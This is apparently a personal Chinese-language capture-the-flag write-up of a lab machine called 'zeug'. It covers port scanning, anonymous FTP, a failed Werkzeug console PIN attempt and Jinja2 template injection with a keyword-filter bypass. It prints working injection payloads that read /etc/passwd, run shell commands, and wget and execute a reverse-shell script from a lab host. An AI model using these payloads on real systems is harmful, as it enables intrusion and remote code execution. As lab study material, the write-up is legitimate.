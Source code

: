 ```yaml
---
title: zeug_hard
tags:
  - sec
date: 2024-02-09T19:30:21
lastmod: 2025-09-29T20:52:15
toc: "true"
---
```

netdiscover
## 主机发现
启动前
![HMM_zeug_image_1|550](https://img.l1uyun.one/HMM_zeug_image_1.png)
启动后, 以后就先导入 VirtualBox 然后导出, 再导入 VMware 算了
![HMM_zeug_image_2](https://img.l1uyun.one/HMM_zeug_image_2.png)
靶机 ip 192.168.10.4
## 端口扫描
![HMM_zeug_image_3](https://img.l1uyun.one/HMM_zeug_image_3.png)

![HMM_zeug_image_4|700](https://img.l1uyun.one/HMM_zeug_image_4.png)

![HMM_zeug_image_5|550](https://img.l1uyun.one/HMM_zeug_image_5.png)
![HMM_zeug_image_6|600](https://img.l1uyun.one/HMM_zeug_image_6.png)
![HMM_zeug_image_7](https://img.l1uyun.one/HMM_zeug_image_7.png)
## FTP 匿名登录
![HMM_zeug_image_8](https://img.l1uyun.one/HMM_zeug_image_8.png)

```bash
~/workspace cat README.txt
Hi, Cosette, don't forget to disable the debug mode in the web application, we don't want security breaches.
```
提示有一个 debug 页面可以利用
## web 侦查
进去之后是一个上传文件的页面, 先去搜了一下 cve, 因为不确定 cms 名称啥的, 
后面搜到了 console 目录, 然后访问了 console 目录, 才确定这是 Werkzeug
![HMM_zeug_image_9|900](https://img.l1uyun.one/HMM_zeug_image_9.png)
这里的 cve 用不了
想着来目录扫描一下
![HMM_zeug_image_10|550](https://img.l1uyun.one/HMM_zeug_image_10.png)
##  控制台页面
最后只有主页的文件上传和一个 console 页面能用, console 页面需要一个 PIN
https://www.daehee.com/werkzeug-console-pin-exploit/
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
查到了这两篇文章, 提示需要一些属性, 然后能够计算出 PIN 值
![HMM_zeug_image_11](https://img.l1uyun.one/HMM_zeug_image_11.png)
利用后面的 SSTI 获取到了这些参数, 但是最终还是利用失败了
最终是利用失败了
## 服务器端模板注入
Server Side Template Injection
还是得看主页的渲染, 之前随便上传了个 html 文件 (前端验证, 无所谓的), 确定了是 ssti 注入
![HMM_zeug_image_12](https://img.l1uyun.one/HMM_zeug_image_12.png)
这里能够执行出结果, 说明有渲染. 执行的过程, 存在 ssti
![HMM_zeug_image_13|332](https://img.l1uyun.one/HMM_zeug_image_13.png)
`过滤了 import, os, attr, script. app, mro,[,], init 的 ssti 注入`
![HMM_zeug_image_14](https://img.l1uyun.one/HMM_zeug_image_14.png)
在 payloadallthing 里面找[能用的 payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)
2024-02-10-00:55:01
明天晚上再看看
```bash
# 我找到的是这个,能够读取文件,但是没用....
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}


wp的payload,神奇的linsum

{{lipsum.__globals__.__builtins__.open("/etc/passwd").read()}}

# 好吧,我是傻逼,使用eval这个方法可以直接字符串拼接
 
{{lipsum.__globals__.__builtins__.eval("__impo"+"rt__(\"o"+"s\").po"+"pen(\"ls -lh /\").read()")}}

```
![HMM_zeug_image_15](https://img.l1uyun.one/HMM_zeug_image_15.png)


```bash
cosette
flask.app
Flask
/home/cosette/zeug/venv/lib/python3.11/site-packages/flask/app.py 


# mac地址
00:0c:29:32:d5:b0
十进制
>>> print(0x000c2932d5b0)
52230804912

48329e233f524ec291cce7479927890b
```
![HMM_zeug_image_16|700](https://img.l1uyun.one/HMM_zeug_image_16.png)
![HMM_zeug_image_17|650](https://img.l1uyun.one/HMM_zeug_image_17.png)
![HMM_zeug_image_18](https://img.l1uyun.one/HMM_zeug_image_18.png)
![HMM_zeug_image_19|450](https://img.l1uyun.one/HMM_zeug_image_19.png)
但是失败了, 换成 md5 也不行, 搞不明白

去看 wp了

```bash
{{lipsum.__globals__.__builtins__.eval("__impo"+"rt__(\"o"+"s\").po"+"pen(\"wget http://192.168.10.11:8000/reverse.sh -O /tmp/reverse.sh\").read()")}}


{{lipsum.__globals__.__builtins__.eval("__impo"+"rt__(\"o"+"s\").po"+"pen(\"/tmp/reverse.sh\").read()")}}
```
![HMM_zeug_image_20](https://img.l1uyun.one/HMM_zeug_image_20.png)

![HMM_zeug_image_21](https://img.l1uyun.one/HMM_zeug_image_21.png)

![HMM_zeug_image_22](https://img.l1uyun.one/HMM_zeug_image_22.png)
![HMM_zeug_image_23](https://img.l1uyun.one/HMM_zeug_image_23.png)
![HMM_zeug_image_24](https://img.l1uyun.one/HMM_zeug_image_24.png)

![HMM_zeug_image_25](https://img.l1uyun.one/HMM_zeug_image_25.png)

![HMM_zeug_image_26](https://img.l1uyun.one/HMM_zeug_image_26.png)

```bash
strings  /usr/bin/zeug
```
![HMM_zeug_image_27](https://img.l1uyun.one/HMM_zeug_image_27.png)

![HMM_zeug_image_28](https://img.l1uyun.one/HMM_zeug_image_28.png)
## 提权
这块涉及计算机底层的东西, 我不懂, 吐了, 先放着

## 学习 wp
![HMM_zeug_image_29](https://img.l1uyun.one/HMM_zeug_image_29.png)
![HMM_zeug_image_30](https://img.l1uyun.one/HMM_zeug_image_30.png)
![HMM_zeug_image_31](https://img.l1uyun.one/HMM_zeug_image_31.png)

![HMM_zeug_image_32](https://img.l1uyun.one/HMM_zeug_image_32.png)
![HMM_zeug_image_33](https://img.l1uyun.one/HMM_zeug_image_33.png)

![HMM_zeug_image_34](https://img.l1uyun.one/HMM_zeug_image_34.png)
![HMM_zeug_image_35](https://img.l1uyun.one/HMM_zeug_image_35.png)



]]